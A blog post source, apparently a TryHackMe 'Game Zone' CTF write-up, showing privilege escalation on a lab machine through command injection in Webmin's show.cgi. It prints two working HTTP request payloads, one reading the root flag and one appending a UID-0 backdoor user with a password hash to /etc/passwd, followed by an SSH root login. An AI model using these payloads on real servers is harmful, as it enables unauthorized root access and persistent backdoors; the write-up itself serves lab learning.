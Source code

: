 ```yaml
---
layout: post
title:  "THM: Game Zone"
date:   2021-01-26 21:00:00 +1100
category: hacking
---
```


## Game Zone
*Learn to hack into this machine. Understand how to use SQLMap, crack some passwords, reveal services using a reverse SSH tunnel and escalate your privileges to root!*

This is [Game Zone](https://tryhackme.com/room/gamezone) from THM. It's easy rated and effectively a walk through. I won't say much about it.

## Privesc
You reach a point where you've got access to a Webmin login with some creds; the instructions want you to use Metasploit:

>Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.

Nah, brah. We can read the root flag or add root2 to the system just fine without MSF. Once you've logged in, Burp Suite will do:

``
GET /file/show.cgi/bin/asdsaasd|cat /root/root.txt| HTTP/1.1
``

Then, just for kicks:

``
GET /file/show.cgi/bin/asdsaasd|echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd| HTTP/1.1
``

{% highlight shell %}
root@kali:/opt/tryhackme/gamezone# ssh root2@10.10.243.157
root2@10.10.243.157s password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:48:48 2019 from 192.168.1.147
root@gamezone:~# cd /root
root@gamezone:~# ls -lash
total 24K
4.0K drwx------  3 root root 4.0K Aug 16  2019 .
4.0K drwxr-xr-x 23 root root 4.0K Aug 16  2019 ..
   0 lrwxrwxrwx  1 root root    9 Aug 16  2019 .bash_history -> /dev/null
4.0K -rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
4.0K drwx------  2 root root 4.0K Aug 16  2019 .cache
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-r--r--  1 root root   33 Aug 16  2019 root.txt
{% endhighlight %}
